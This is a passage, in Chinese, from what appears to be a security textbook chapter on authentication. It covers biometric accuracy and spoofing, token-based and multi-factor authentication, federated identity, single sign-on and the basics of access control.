对于给定的测试，其敏感度和特异度会根据定义匹配的测试阈值而变化。例如，测试可能仅在完全匹配时才判定为匹配：只有“Smith”匹配“Smith”。与使用 Soundex 算法判定两个名字相同的标准相比，这种匹配标准产生的阳性结果（即被视为匹配的情况）更少：Soundex 认为“Smith”与“Smythe”、“Smeth”、“Smitt”及其他发音相似的名字相同。因此，这两种测试在敏感度上有所不同。Soundex 标准不那么严格，可能产生更多阳性匹配；因此，它是敏感度较高但特异度较低的测试。一般来说，考虑随着我们改变测试标准而产生的敏感度范围。我们可以通过放宽阳性测试的标准来提高敏感度。同样，我们可以通过收紧阳性测试的标准来提高特异度。

*受试者工作特征*（ROC）*曲线*是假阴性率与假阳性率之间权衡的图形表示。传统上，ROC 图的 x 轴显示假阳性率（1 – 特异度），y 轴显示真阳性率（敏感度或 1 – 假阴性率）。测试的准确度对应曲线下面积。面积为 1 代表完美的测试，而面积为 0.5 代表无用的测试。理想情况下，我们希望测试在图表上尽可能靠左且靠上，代表具有高真阳性率和低假阳性率的测试。也就是说，曲线下面积越大，测试识别真阳性和最小化假阳性的能力越强。图 2-4 展示了 ROC 曲线的示例及其与敏感度和特异度的关系。



**图 2-4** ROC 曲线

对于匹配或筛选系统，就像任何测试一样，系统管理员必须确定可接受的敏感度和特异度水平。这些水平取决于测试的意图、环境、目标标准的患病率、实现同一目标的替代方法，以及测试的成本和收益。

---

### 运营约束

- 完成识别所需的*速度*限制了准确度。我们理想情况下可能希望进行多次读取并合并结果，或评估最佳匹配。但认证是为了让用户做某事：认证不是最终目标，而是阻挡用户达成目标的关卡。用户理所当然地想通过关卡，如果认证耗时过长，他们会感到沮丧和恼火。

- 虽然我们倾向于将生物特征视为个体独有的部分，但*伪造*是可能的。一些伪造示例见侧边栏 2-7。

生物特征依赖于可能因日而异或随年龄变化的物理特征。以你的手为例：在某些日子，温度、活动水平或其他因素可能导致你的手肿胀，从而扭曲手的物理特征。但认证不应仅仅因为天气热就失败。生物识别还取决于样本的采集方式。例如，对于手部几何识别，你将手放在模板上，但根据你手部摆放位置的微小差异，测量结果会略有不同。

---

#### 侧边栏 2-7：生物特征伪造

最著名的伪造案例是日本研究人员利用廉价且易得的明胶制作的人工指纹。研究人员使用将活体手指按压制作的模具，或通过处理玻璃表面指纹图像制作的模具。由此产生的“软糖手指”经常被 11 款特定的光学或电容传感器指纹设备接受。[MAT02]

据 BBC 新闻（2013 年 3 月 13 日）报道，巴西一名医生被发现拥有十六根手指：十根真指和六根硅胶制假指，她用这些假指代替同事登录医院的打卡系统。

2014 年发表的一项研究[BOW14]探讨了隐形眼镜是否可用于欺骗观察虹膜（眼睛的有色环）纹理的认证设备。研究目的是确定虹膜识别系统是否可靠地检测真阳性；即受试者是否会被系统可靠地认证。研究人员证明，有色隐形眼镜可以欺骗系统，在实际存在匹配时拒绝匹配。例如，受试者可能佩戴隐形眼镜以避免被识别为通缉犯。尽管困难且罕见，但只要虚假结果的回报足够高，伪造就会成为一个问题。

---

#### 模板匹配与容差

生物特征认证使用代表特征测量值的模式或模板，很像基线。当你使用生物特征进行认证时，会采集当前的一组测量值并与模板进行比较。然而，当前样本不必与模板完全匹配。如果匹配“足够接近”，即在预定义的容差范围内，认证即成功，例如 90% 的数值匹配，或每个参数均在其预期值的 5% 范围内。测量、比较和评估匹配的接近程度需要时间，肯定比密码的“完全匹配或不匹配”比较要长。（考虑侧边栏 2-8 中描述的结果。）因此，生物特征的速度和准确性是决定其是否适合特定使用环境的因素。

---

**生物特征匹配并非精确匹配；问题在于假阳性率和假阴性率是否可接受。**

---

请记住，识别是陈述身份，而认证是确认身份，如图 2-5 所示。生物特征认证可靠，但用于识别则可靠性低得多。原因是数学上的。所有生物特征读取器都分两个阶段运行。首先，用户向读取器注册，在此期间会采集用户的一个特征（例如手部几何形状）并将其转化为一组数据点。注册期间，可能会要求用户多次展示手部，以便注册软件能够调整变化，如手部的位置。注册会生成特定用户特有的数据点模式，称为 `template`（模板）。在第二阶段，用户稍后向系统请求认证，在此期间系统会重新测量手部，并将新测量值与存储的模板进行比较。如果新测量值与模板足够接近，系统接受认证；否则，系统拒绝。侧边栏 2-9 指出了混淆识别和认证的问题。



**图 2-5 识别和认证（左图由 Lfoxy/Shutterstock 提供；右图由 Schotter Studio/Shutterstock 提供）**

---

#### 侧边栏 2-8 指纹采集——没那么快！

记录或采集指纹本应是一个简单直接的过程。一些国家使用指纹追踪入境的外国访客，因此他们想了解这对边境访客处理的影响。在电视和电影中，似乎获取一张高质量的指纹图像只需一两秒。

美国国家标准与技术研究院（NIST）的研究人员进行了一项涉及 300 多名受试者的对照实验，这些受试者总体上具有美国人口的代表性 [THE07]。他们发现，与电视情节相反，获取十指的高质量样本需要 45 秒到 1 分钟的时间。

---

#### 侧边栏 2-9 用于识别还是认证的 DNA

1972 年 12 月，旧金山一名护士在其公寓内遭到性侵并惨遭杀害。房东太太在凶手冲出公寓时与其正面相遇，向警方提供了体貌特征。在犯罪现场，警方收集了证据，包括推定凶手的 DNA 样本。然而，经过数月的调查，警方仍无法锁定嫌疑人，案件最终被归入未破案堆中。

三十年后，旧金山警察局获得拨款利用 DNA 破解悬案，重启 1972 年案件时，他们发现了一张保存有退化 DNA 样本的载玻片。为调查目的，科学家会在 DNA 样本中分离出 13 个称为标记的特征。两个不同的人在所有 13 个标记上完全匹配的几率是 1/1000 万亿（1\*10¹⁵）。然而，正如 Jason Felch 和 Maura Dolan 在《洛杉矶时报》的报道中所述 [FEL08]，本案中陈旧的样本已退化，13 个标记中只有 5.5 个是可靠的。只有这么多标记时，两人匹配的可能性降至 1/110 万，请记住，就此处目的而言，两人 DNA 匹配意味着至少有一个样本不是罪犯的。

随后，警方想将该样本与加利福尼亚州罪犯 DNA 数据库进行比对。但要进行此类比对，管理员要求至少 7 个标记，而警方只有 5.5 个。为了搜索数据库，警方使用了另外两个太微弱而无法作为定论的标记的数值。有了 7 个标记，警方在 338,000 条记录的数据库中查询，得出一名匹配者，该男子随后因该罪受审并被定罪，但其辩护律师强烈认为他是无辜的。他与受害者无关，其指纹与现场采集的任何指纹都不匹配，且他先前因性犯罪的定罪具有不同的作案模式。

问题在于警方将 DNA 匹配用作识别手段，而非认证手段。如果警方有其他证据指向特定嫌疑人，且该嫌疑人的 DNA 与现场发现的 DNA 匹配，则正确识别的可能性增加。然而，如果警方仅想找出 DNA 与样本匹配的任何人，错误匹配的可能性会急剧上升。请记住，以 1/110 万的*错误*匹配率，如果你集合 110 万人，你会预期有一人会错误匹配你的样本，或者有 50 万人时，你会认为匹配的可能性约为 1/2。只有当你只检查一个人时，错误匹配的可能性才会降至 1/110 万。

打个比方：如果你在 110 万张彩票的彩票中买一张，中奖几率是 1/110 万。如果你买两张，几率增加到 2/110 万，如果你买 338,000 张，几率变成 338,000/110 万，约为 1/3。基于此原因，在寻求识别而非认证时，FBI 的 DNA 顾问委员会和国家研究委员会的一个专家组都建议，将总体概率（1/110 万）乘以数据库中的样本数量，以得出随机（即无辜）匹配的可能性。

虽然我们不知道该案中被定罪者是有罪还是无辜，但这一推理提醒我们要小心区分识别和认证。

---

### 生物特征识别的准确性

我们将生物特征识别——或任何认证技术——视为二元的：一个人要么通过，要么失败，如果我们正确设置参数，大多数合法用户会通过，大多数非法用户会失败。也就是说，该机制不具歧视性。事实上，该过程存在偏差，这是由灵敏度和选择性之间的平衡导致的：有些人更容易通过，而另一些人更容易失败。侧边栏 2-10 描述了这如何发生。

直到最近，警方和司法系统都假设指纹是唯一的。然而，这一假设实际上没有数学或科学依据。事实上，指纹识别已被证明是会出错的，无论是人工还是计算机化的指纹比对系统也都显示出过失误。部分比对问题在于，并非比对整个指纹，而是仅比对印迹上显著脊线的特征。因此，人或机器仅检查显著特征，称为该指纹的 `template`（模板）。

---

**生物特征认证意味着主体与模板的匹配程度足够接近。“接近”是一个可调节的系统参数。**

---

除非每个模板都是唯一的，即没有两个人具有相同的数值，否则系统无法唯一识别主体。然而，只要冒充者不太可能拥有与真实用户相同的生物特征模板，系统就能进行认证。在认证中，我们不会遍历所有模板看谁可能匹配一组测量特征；我们只是确定一个人的特征是否与其存储的模板匹配。生物特征认证在今天是可行的；生物特征识别在很大程度上仍是一个研究课题。

#### 测量生物识别认证的准确性

测量生物识别认证的准确性很困难，因为认证过程并非唯一。在实验环境中，对于任何单个受试者或受试者集合，我们都可以计算假阴性率和假阳性率，因为我们知道受试者及其真实身份。但我们无法将这些结果推广到现实世界，并询问还有多少其他人可能被认证为某个特定的人。我们受到限制，因为我们的研究人群和环境可能无法反映现实世界。产品供应商对生物识别技术或某项特定生物识别特征的准确性提出了许多声称，但极少有独立研究人员真正尝试证实这些声称。在边栏 2-11 所述的一个实验中，专家指纹检验员——那些在审判中就指纹证据作证的人——有时会判断失误。

---

#### 边栏 2-10 存在“不可识别”的人吗？

是否存在某些人根本无法使用生物识别系统？也就是说，是否存在这样的人，例如，他们的特征难以区分，以至于他们总能冒充他人通过验证？

Doddington 等人[DOD98] 检查了系统和用户，以寻找以下具体例子：那些异常频繁地被错误拒绝的人、那些其他受试者异常频繁地与其档案匹配的人，以及那些异常频繁地与许多档案匹配的人。

在此基础上，Yager 和 Dunstone[YAG10] 又增加了两类人：那些容易匹配并导致高假阳性率的人，以及那些既不太可能与自己匹配，也不太可能与其他人匹配的人。作者随后研究了不同的生物识别分析算法与这些困难案例的关系。

Yager 和 Dunstone 引用了一种普遍的观点，即 2% 的人口拥有天生难以匹配的指纹。在分析了一个大型指纹数据库（美国访客计划收集的外国访客指纹）后，他们得出结论：极少有人（如果有的话）天生难以匹配，当然不会达到 2%。

他们检查了具体的生物识别技术，发现部分错误与技术有关，而非与人有关。例如，他们查看了虹膜识别系统无法匹配的人员数据库，但发现其中许多人在注册系统时佩戴了眼镜；他们推测眼镜增加了系统提取个人虹膜图案特征的难度。在另一个案例中，他们研究了一种人脸识别系统。他们发现系统无法匹配的人来自某个特定族群，并推测分析算法已针对另一个族群的面部特征进行了调优。因此，他们得出结论：匹配错误更可能是注册问题和算法弱点导致的，而非人们特征的固有属性所致。

尽管如此，对于他们研究的生物识别系统，他们发现对于特定特征和分析算法，某些用户的特征表现优于其他用户。这一研究强化了谨慎实施此类系统的必要性，以确保算法、计算或使用的固有局限性不会不成比例地影响结果。

---

#### 边栏 2-11 指纹检验员会犯错

美国联邦调查局资助的一项研究[ULE11] 探讨了专家指纹评估的有效性。实验者向 169 名专业检验员展示了来自 744 个指纹样本池中的指纹对，以判断这些指纹是否匹配。该实验旨在测量准确性（两名检验员得出相同结论的程度）和可靠性（同一检验员两次得出相同结论的程度）。共检查了 4,083 对指纹。

在被检查的指纹对中，有六对被错误标记为匹配，假阳性率为 0.01%。尽管人类被公认会犯错，但令人沮丧的是我们无法预测何时会犯错。因此，在现实场景中，这些假阳性可能代表六名无辜者被错误判定有罪。假阴性率显著更高，为 7.5%，这或许反映了检验员的保守倾向：检验员更倾向于不相信真正的匹配，而不是相信不匹配。

2004 年西班牙马德里通勤列车爆炸案中一个广为人知的错误，使指纹匹配中的假阳性问题备受关注。居住在俄勒冈州的美国律师 Brandon Mayfield 被捕，因为 FBI 将他的指纹与犯罪现场一个装有雷管的塑料袋上发现的指纹匹配。2006 年，FBI 承认其曾错误地将该指纹鉴定为“绝对无可争议的匹配”。

---

### 认证与生物识别

认证对计算系统至关重要，因为准确的用户识别是个人访问权限的关键。大多数操作系统和计算系统管理员都采取了合理但严格的安全措施，在未经授权的用户访问系统资源之前将其拒之门外。但正如边栏 2-12 所述，有时会强行将不合适的机制作为认证设备投入使用。

丢失或忘记生物识别认证几乎是不可能的，因为生物识别依赖于人体特征。但这些特征会随时间变化（想想发色或体重）；因此，生物识别认证可能不如基于知识的认证精确。你要么知道密码，要么不知道。但指纹可能是 99% 匹配、95% 匹配或 82% 匹配，部分差异取决于诸如手指放置位置、手指是否受伤、手是否冰冷或皮肤干燥脏污等因素。压力也会影响生物识别因素，如语音识别，可能对安全性产生不利影响。想象一个紧急情况下你需要急切访问电脑，但你的焦虑影响了你的声音。如果系统认证失败并给你重试的机会，增加的压力可能让你的声音更差，从而威胁可用性。

生物识别可以相当快速简便，我们有时可以调整灵敏度和特异性以平衡假阳性和假阴性结果。但由于生物识别需要设备读取，其在远程认证中的应用受到限制。第三种认证因素——你`拥有`的东西——提供了与前两种因素不同的优势和劣势。

---

#### 边栏 2-12 使用 Cookie 进行认证

在 Web 上，Cookie 常用于认证。Cookie 是由访问的网站发送给 Web 浏览器的一对数据项。数据项由键和值组成，旨在表示访问用户与被访问网站之间会话的当前状态。一旦 Cookie 被放置在用户系统上（通常在与其他 Cookie 同一目录下），浏览器将在用户与该网站的后续交互中继续使用它。每个 Cookie 应该都有过期日期，但该日期可以设定在遥远的未来，且稍后可被修改甚至忽略。

例如，《华尔街日报》网站 wsj.com 在用户首次登录时创建一个 Cookie。在后续交易中，该 Cookie 充当标识符；用户无需密码即可访问该网站。（其他网站使用相同或类似的方法。）

#### 用户必须免受暴露和伪造之害

用户必须免受暴露和伪造之害。也就是说，用户可能不希望外界知道他们访问过哪些网站。他们也不希望有人通过冒充和欺诈来查看信息或在网上购买商品。此外，在共享计算机上，如果接收站点使用 Cookie 执行自动身份验证，一个用户就可以冒充另一个用户。

Sit 和 Fu [SIT01] 指出，Cookie 并非为保护而设计。无法建立或确认 Cookie 的完整性，而且并非所有站点都会加密其 Cookie 中的信息。

Sit 和 Fu 还指出，服务器的操作系统必须特别警惕以防范窃听：“大多数 [Web 流量] 交换不使用 [加密] 来防范窃听；位于两台计算机之间网络上的任何人都可以窃听通信流量。除非服务器采取强有力的预防措施，否则窃听者可以窃取并重用 Cookie，无限期地冒充用户。”（在 第 6 章 中，我们将介绍如何使用加密来防范此类窃听。）

---

### 基于令牌的身份验证：你所拥有的东西

“你所拥有的东西”意味着你持有一个物理对象。你可能熟悉的一种物理认证器是钥匙。当你把钥匙插入锁孔时，钥匙上的锯齿与锁内的弹子相互作用，使机芯转动。从某种意义上说，锁通过验证你持有合适的钥匙来认证你的授权进入。当然，你可能会丢失钥匙，或复制钥匙并将副本给他人，因此这种认证并不完美。但它是精确的：只有你的钥匙能开这把锁，而你的钥匙只能开这把锁。（为简化示例，我们有意忽略万能钥匙的情况。）

其他熟悉的令牌示例包括徽章和身份证。你可能拥有一张“会员卡”：一种带有代码的卡片，可让你在商店享受折扣。许多学生和员工拥有允许他们进入大楼的工牌。你必须持有身份证或护照才能登机或入境外国。在这些情况下，你持有一个其他人认可的物体，以允许你获得访问权限或特权。

另一种身份验证令牌拥有不可见通信的数据。此类令牌的示例包括带磁条的信用卡、带嵌入式计算机芯片的信用卡，或具有无源或有源无线技术的门禁卡。你将令牌插入合适的读卡器，读卡器会感应卡中的数值。如果你的身份与令牌中的数值匹配，这种对应关系会增加你是你所声称的那个人的可信度。

接下来我们将介绍不同种类的令牌。

#### 有源令牌和无源令牌

顾名思义，**无源令牌** 不执行任何操作，而有源令牌则采取某些行动。照片或钥匙是无源令牌的示例，因为令牌的内容永远不会改变。（当然，对于照片而言，永久性可能是个问题，因为人们会改变发型或发色，面容也会随时间改变。）


**有源令牌** 可以具有一些可变性或与周围环境的交互。例如，一些公共交通系统使用带磁条的卡片。当你将卡片插入读卡器时，机器会读取当前余额，扣除车费，并为下次使用重写新的余额。在这种情况下，令牌只是一个用于保存当前数值的存储库。另一种有源令牌会与其读卡器发起双向通信，通常通过无线或无线电信号。这些令牌引出了令牌的下一个区别：静态交互和动态交互。

---

**无源令牌不发生变化。有源令牌与传感器通信。**

---

### 静态令牌和动态令牌

**静态令牌** 的值保持固定。钥匙、身份证、护照、信用卡及其他磁条卡、无线电发射卡（称为 `RFID` 设备）都是静态令牌的示例。静态令牌最适用于现场身份验证：当警卫查看你的照片徽章时，你持有该徽章且你的面容（至少模糊地）与照片相似这一事实，会使警卫通过你的身份验证并允许你进入。

我们也对远程身份验证感兴趣，即你能够向其他地方的人或计算机证明你的身份。以照片徽章为例，可能不易将徽章图像和你的面容传输给远程计算机进行比对。更糟的是，距离增加了伪造的可能性：现场警卫能看出你是否戴着面具，但远程图像可能无法让警卫察觉。远程身份验证容易受到令牌被伪造的问题影响。

令牌容易受到一种称为“窃取”的攻击。**窃取** 是指使用设备秘密复制认证数据并将其传送给攻击者。自动取款机（`ATM`）和销售终端信用卡读卡器特别容易受到窃取攻击。^(1) 在 `ATM` 上，窃贼会在插入银行卡的卡槽上安装一个小装置。因为所有银行卡都符合标准格式（以便你可以在任何 `ATM` 或商户使用），窃贼可以编写一段简单的软件来复制并保留你银行卡磁条上记录的信息。一些窃取设备还配有微型摄像头，记录你在键盘上输入 `PIN` 时的按键。窃贼要么即时（使用无线通信），要么稍后（回收物理设备）获取你的账号及其 `PIN`。窃贼只需制作一张记录了你账号的伪造卡，并使用 `PIN` 进行认证，就能在 `ATM` 从你账户取款或用克隆信用卡购物。

1. 注意，此讨论指的是美国流行的磁条卡。大多数其他国家使用嵌入式计算机芯片卡，其抗窃取能力强得多。

另一种复制形式发生在密码上。如果你必须输入或说出密码，其他人可能会从你肩后窥视或偷听，现在该认证器就很容易被复制或伪造。为了克服物理令牌或密码被复制的问题，我们可以使用动态令牌。**动态令牌** 是其值会发生变化的令牌。虽然有几种不同形式，但动态认证令牌本质上是一种生成不可预测数值的设备，我们可以称之为“动态口令”。一些设备按特定间隔更换数字，例如每分钟一次；另一些在你按下按钮时更换数字；还有一些响应输入（有时称为“质询”）计算新数字。在所有情况下，即使别人看到或听到你提供的动态口令也无关紧要，因为该数值仅对一次访问（你的）有效，知道该数值无法让外人猜测或生成下一个动态口令。

---

**动态令牌拥有令牌上的计算能力以改变其内部状态。**

---

#### 动态令牌生成器

动态令牌生成器对于远程身份验证非常有用，特别是用于人员向计算机的身份验证。动态令牌的一个例子是 `RSA` 实验室的 `SecurID` 令牌，如图 2-6 所示。要使用 `SecurID` 令牌，当验证应用程序提示时，你需要输入令牌上当前显示的数字。每个令牌都会生成一组独特的、几乎无法预测的数字序列，且每分钟变化一次，因此身份验证系统知道在任何时刻你的令牌应显示什么数字。通过这种方式，两个人可以拥有 `SecurID` 令牌，但每个令牌仅验证其分配的所有者。输入另一个令牌上的数字无法通过你的身份验证。而且因为令牌每分钟生成一个新数字，输入之前身份验证时的数字也会失败。



**图 2-6** SecurID 令牌（照片由 `RSA` 提供，`RSA` 是 `EMS` 的安全事业部，版权所有 © `RSA Corporation`，保留所有权利。）

我们现在已经考察了身份验证的三大基础：你**知道**的、你**是**什么、你**拥有**的。在适当的环境下使用，每一种都能提供合理的安全性。在接下来的章节中，我们将探讨一些增强这三种基本形式安全性的方法。

#### 联合身份管理

如果这些不同形式的身份验证看起来令人困惑且难以应对，那确实可能如此。试想一下，某些系统需要密码，某些需要指纹扫描，某些需要有源令牌，还有一些需要多种技术的组合。正如你已知的那样，为许多系统记忆不同的身份标识和密码极具挑战性。必须同时使用多个不同系统（例如电子邮件、客户跟踪、库存和销售）的人员，很快就会厌倦从一个系统登出、登入另一个系统、刷新已超时的登录，以及创建和更新用户配置文件。用户理所当然地呼吁由计算机来处理这些记账工作。

**联合身份管理**方案是独立的识别和身份验证系统的联合。联合方案不维护独立的用户配置文件，而是维护一个配置文件和一种身份验证方法。独立的系统共享对已验证身份数据库的访问权限。因此，身份验证在一个地方执行，而独立的进程和系统确定一个已验证的用户将被激活。此类过程如图 2-7 所示。



**图 2-7** 联合身份管理器

***

**联合身份管理统一了一组系统的识别和身份验证过程。**

***

与之密切相关的是**单点登录**过程，如图 2-8 所示。可以将其视为一种统筹程序，你在每个会话中只需登录一次（例如，每天一次）。该统筹程序维护你访问的所有不同进程的身份标识和身份验证代码。例如，当你想要访问电子邮件时，无需你亲自填写用户 ID 和密码屏幕，单点登录过程会将这些详细信息传递给电子邮件处理程序，身份验证步骤成功后，你重新获得控制权。



**图 2-8** 单点登录

这两种方法的区别在于，联合身份管理涉及单个身份管理模块，该模块取代了所有其他系统中的识别和身份验证。因此，所有这些系统都调用身份管理模块。而对于单点登录，系统仍然要求单独的识别和身份验证，但统筹任务代表用户执行这些交互。

***

**单点登录代表用户接管对多个独立系统的登录和身份验证。**

***

#### 多因素身份验证

本章讨论的单因素身份验证方法各有优缺点。例如，令牌仅在你不泄露（或丢失、被盗）的情况下有效，如果有人从你肩后窥视你输入密码，密码使用就会失效。我们可以通过将一种身份验证形式与另一种形式相结合，来弥补单一形式的局限性。

身份证件（如驾驶执照）通常包含照片和签名。卡片本身是一种令牌，但任何看到该卡片的人都可以将你的面部与照片进行比对，确认该卡片属于你。或者，该人可以要求你签名并比对签名。这样，身份验证既基于令牌又基于生物特征（因为你的外貌和签名方式都是你与生俱来的属性）。请注意，你的信用卡背面有签名栏，但在美国，很少有商家将该签名与你在销售单上签的名进行比对。拥有可用的身份验证因素并不一定意味着我们会使用它们。

只要过程不变得过于繁琐，身份验证可以使用两个、三个、四个或更多因素。例如，要访问某物，你必须输入密码、刷卡，并将手放在感应板上。

组合身份验证信息称为**多因素身份验证**。两种形式的身份验证（不出所料，称为**双因素身份验证**）被认为比单一形式更好，当然前提是这两种形式都很强。但随着形式数量的增加，用户的不便也随之增加。每个身份验证因素都要求系统、其管理员和用户管理更多的安全信息。我们假设因素越多意味着置信度越高，尽管鲜有研究支持这一假设。而且两种身份验证意味着两套软件，或许还需要两种读取器，以及执行两次身份验证的时间。确实，即使多因素身份验证优于单因素，我们也不知道 `n` 取何值时 `n` 因素身份验证是最优的。从可用性角度来看，较大的 `n` 值可能导致用户沮丧并降低安全性，如侧边栏 2-13 所示。

#### 安全身份验证

密码、生物特征和令牌都可以参与安全身份验证。当然，仅仅使用其中任何一种或全部并不能保证身份验证方法是安全的。要实现真正的安全，我们需要仔细思考我们试图解决的问题和拥有的工具；我们还需要考虑阻止可能的攻击和攻击者。

***

##### 侧边栏 2-13 当更多因素意味着更低的安全性时

Dave Concannon 的博客 [www.apeofsteel.com/tag/ulsterbank](http://www.apeofsteel.com/tag/ulsterbank) 描述了他使用 `Ulsterbank` 网上银行系统时的挫败感。登录过程包含多个步骤。首先，用户提供客户识别号（第一个身份验证因素）。接下来，需要一个单独的用户 ID（因素 2）。第三，使用 `PIN` 提供一组数字（因素 3），如下图所示：系统随机要求输入三个不同的数字（在图中，需输入第 3 位、第 2 位和第 4 位数字）。最后，系统要求至少十位字符的通行短语，其中部分必须为数字（因素 4）。



在博客中，Concannon 抱怨不仅登录困难，修改密码也很困难。有四个因素需要记忆，`Ulsterbank` 用户很可能会因沮丧而将这些因素写下来放在钱包里，从而降低了银行系统的安全性。

***

## 访问控制与认证

### 认证机制

假设我们要控制对计算系统的访问。除了名称和密码，我们还可以使用其他可用信息来认证用户。假设 `Adams` 在会计部门工作，轮班时间为周一至周五上午 8:00 至下午 5:00。`Adams` 的任何合法访问尝试都应在此期间通过会计部门办公室的工作站进行。通过将 `Adams` 限制在这些条件下登录，系统可防范两个问题：

- 外部人员可能试图冒充 `Adams`。此类尝试将因访问时间或尝试访问的端口而被阻止。
- `Adams` 可能试图从家中或周末访问系统，计划使用不被允许的资源，或做一些在其他人在场时风险太大的事情。

将用户限制在特定工作站或特定访问时间可能会导致复杂情况（例如用户合法需要加班、人员出差在外需访问系统、特定工作站故障）。然而，一些公司采用这些认证技术，因为它们提供的额外安全性超过了带来的不便。作为安全分析师，我们需要训练思维，识别区分正常允许活动的特征。

正如你所见，安全从业者有多种认证机制可供使用。没有一种是完美的；所有机制都有优缺点，甚至组合使用也并不完美。用户界面往往看起来简单且万无一失（还有什么比将手指放在玻璃板上更容易的？），但正如我们所述，这种简单性之下隐藏着不确定性、模糊性和脆弱性。尽管如此，在本节中你已了解了类型和示例，以便在开发需要认证的系统和应用时，能够利用这些背景知识选择满足安全需求的方法。

### 2.2 访问控制

在本节中，我们将讨论如何保护通用对象，如文件、表、硬件设备访问或网络连接及其他资源。通常，我们需要一种灵活的结构，使某些用户能以一种方式使用资源（例如只读），其他用户以不同方式使用（例如允许修改），还有一些用户完全不能使用。我们需要健壮、易用且高效的技术。

我们从 `Scott Graham` 和 `Peter Denning` \[GRA72\] 阐述的基本访问控制范式开始：**主体**被允许以特定**模式**访问**客体**，且仅允许此类授权访问。

- **主体** 是人类用户，通常由代表用户运行的代理程序表示。
- **客体** 是可执行操作的事物：文件、表、程序、内存对象、硬件设备、字符串、数据字段、网络连接和处理器都是客体示例。用户（或代表用户的程序/进程）也是客体，因为操作系统（代表系统管理员的程序）可对用户执行操作，例如允许用户执行程序、停止用户或分配特权给用户。
- **访问模式** 是主体对客体的任何可控操作，包括但不限于读、写、修改、删除、执行、创建、销毁、复制、导出、导入等。

有效的隔离能阻止未授权主体对客体的未授权访问，但对于授权主体和模式，必须跨越这一隔离界限。本节将探讨允许所有且仅允许授权访问的方法。

***

**访问控制：限制谁可以以何种方式访问什么**

***

#### 访问策略

访问控制是一个机械过程，可通过表和计算机进程轻松实现：给定主体要么可以，要么不可以以特定方式访问特定客体。这一直接决策背后，是基于正式或非正式安全策略的复杂且细致的决策，即哪些访问应被允许。

访问控制决策不应（也不应）随意做出。`Pat` 获得文件访问权是因为她从事的项目需要该数据；`Sol` 是管理员，需要能够为系统添加和删除用户。有依据可简化对其他用户和对象的类似决策。策略也简化了访问控制规则的建立，因为规则仅反映现有策略。

因此，在尝试实施访问控制前，组织需花时间制定高层安全策略，这将驱动所有访问控制规则。

##### 有效的策略实施

保护客体涉及多个互补目标。

- **检查每次访问**。我们可能想撤销用户访问某客体的特权。若之前已授权用户访问该客体，并不意味着用户应无限期保留访问权。事实上，某些情况下（如检测到用户被冒充），我们可能想在撤销授权后立即阻止进一步访问。因此，我们应旨在检查用户对客体的每一次访问。
